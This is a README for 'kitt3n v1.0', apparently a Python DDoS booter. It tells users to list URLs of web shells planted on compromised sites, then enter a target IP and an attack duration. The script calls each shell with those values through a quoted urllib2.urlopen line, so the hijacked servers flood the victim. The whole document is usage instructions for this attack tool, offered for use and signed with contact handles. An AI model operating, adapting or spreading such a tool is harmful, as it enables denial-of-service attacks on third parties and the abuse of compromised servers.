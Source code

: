 kitt3n v1.0 - Kismet

Locate test.txt and add your shells/shell url path 

    Example: http://www.example.com/404.php
  
I've already set them to a certain param but you can edit them to your liking

    Example: http://www.example.com/404.php?host=1.1.1.1&time=120
  
If you would like to edit the params for the GET method you can do so by 

    Code: shellres = urllib2.urlopen(shell + "?host=" + target + "&time=" + str(time)).read()
    Example: http://www.example.com/shell.php
  
So lets say that the text input is ip instead of host ("?host=") and time is seconds ("&time=")
You would simpy replace host with ip and time with seconds in line 52.
  
    Code: shellres = urllib2.urlopen(shell + "?ip=" + target + "&seconds=" + str(time)).read()

    Note: If you use a list make sure all the shells have the same params!
  
Execute kitt3n

    Code: python kitt3n.py
  
Enter your file for your shells/shells url path

    Example: text.txt
  
Enter the IP of tagget

    Example: 127.0.0.1

Enter the time (recommend 180-240 seconds)

    Example: 240
  
Then it will set your input and ask you if you want to continue. Hit 'y'

    Code: y
  
Then sit back and let kitt3n do they work!

XMPP: kismet@r00-t.com
Twitter: temisK_
